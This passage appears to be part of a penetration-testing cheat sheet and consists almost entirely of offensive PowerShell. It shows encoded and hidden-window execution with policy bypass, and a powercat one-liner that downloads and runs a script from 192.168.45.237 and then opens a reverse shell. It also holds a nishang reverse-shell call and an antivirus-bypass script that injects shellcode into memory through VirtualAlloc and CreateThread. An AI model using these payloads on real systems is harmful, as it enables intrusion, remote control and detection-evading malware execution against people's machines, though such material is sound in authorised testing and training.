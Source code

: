 ```powershell
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText

powershell -enc <encodedtext>
powershell -c "COMMANDS"
powershell -nop bypass -w hidden -enc/-c


# POWERCAT
# /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1

IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.45.237:8000/powercat.ps1");powercat -c 192.168.45.237 -p 4444 -e powershell 

# from nishang repo
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 6666


```
#### AV Bypass In-Memory Injection (PS1)
**NOTE**: Below powershell script runs in x86 architecture so run `C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe` to open powershell x86
[Reference of the payload](https://github.com/sergiovks/AntiVirus-Bypass-PowerShell-In-Memory-Injection)
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$var1 = 
  Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$var2 = <place your shellcode here>;

$size = 0x1000;

if ($var2.Length -gt 0x1000) {$size = $var2.Length};

$x = $var1::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var2.Length-1);$i++) {$var1::memset([IntPtr]($x.ToInt32()+$i), $var2[$i], 1)};

$var1::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
